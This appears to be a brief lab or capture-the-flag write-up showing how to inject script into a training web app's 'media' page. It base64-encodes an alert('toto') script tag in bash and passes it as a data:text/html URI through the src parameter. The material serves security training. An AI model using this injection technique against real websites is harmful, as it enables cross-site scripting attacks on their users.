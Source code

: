 ## 1

Check the NSA link (the bird with headphones). The address will be something like:
http://10.39.42.166/?page=media&src=nsa

## 2

use bash to convert the script to base64

echo -n "<script>alert('toto')</script>" | base64
# Output: PHNjcmlwdD5hbGVydCgndG90bycpPC9zY3JpcHQ+

Then create the address:
http://{ip_address}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgndG90bycpPC9zY3JpcHQ